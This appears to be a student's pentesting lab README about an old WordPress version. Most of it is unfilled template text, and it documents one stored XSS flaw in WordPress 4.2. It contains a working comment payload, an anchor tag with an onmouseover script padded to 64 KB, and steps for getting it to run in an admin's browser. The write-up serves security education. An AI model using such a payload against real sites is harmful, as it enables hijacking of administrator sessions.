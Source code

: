 # Project 7 - WordPress Pentesting

Time spent: 7 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Vulnerability Name or ID
  - [ ] Summary: . The script is triggered when the comment is viewed.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: 
                        https://github.com/akaycee/Codepath/blob/main/Vulnerablility1.gif
                        https://github.com/akaycee/Codepath/blob/main/Vulnerablility1b.gif
  - [ ] Steps to recreate: 1) Post the following comment
                           <a title='x onmouseover=alert(unescape(/Youve%20been%20Pwned/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
                           replace the ...[64 kb].. with 64kb worth of data (replace with 64k 'A's)
                           2) Admin must approve the comment and view it
                           3) The javascript code is run with admin priviledge.
  - [ ] Affected source code:
        


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
